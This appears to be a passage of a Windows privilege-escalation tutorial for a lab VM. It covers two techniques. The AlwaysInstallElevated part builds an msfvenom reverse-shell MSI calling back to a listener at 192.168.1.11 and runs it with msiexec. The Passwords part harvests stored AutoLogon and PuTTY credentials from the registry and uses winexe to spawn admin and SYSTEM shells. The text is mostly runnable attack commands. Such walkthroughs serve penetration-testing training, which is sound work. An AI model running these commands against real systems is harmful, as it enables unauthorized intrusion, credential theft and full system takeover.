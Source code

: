 1. Use winPEAS to see if both registry values are set:

```
> .\winPEASany.exe quiet windowscreds
```

2. Alternatively, verify the values manually:

```
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

3. Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi
```

4. Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:

```
> msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

## <mark style="color:red;">Passwords</mark>

The following commands will search the registry for keys and values that contain “password”:

```
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s
```

This usually generates a lot of results, so often it is more fruitful to look in known locations.

1. Use winPEAS to check common password locations:

```
> .\winPEASany.exe quiet filesinfo userinfo
```

2. The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).
3. We can verify these manually:

```
> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

4. On Kali, we can use the winexe command to spawn a shell using these credentials:

```
# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

5. We can also obtain a system shell using the admin user with winexe:

```
# winexe -U 'admin%password123' --system //192.168.1.22 cmd.exe
```

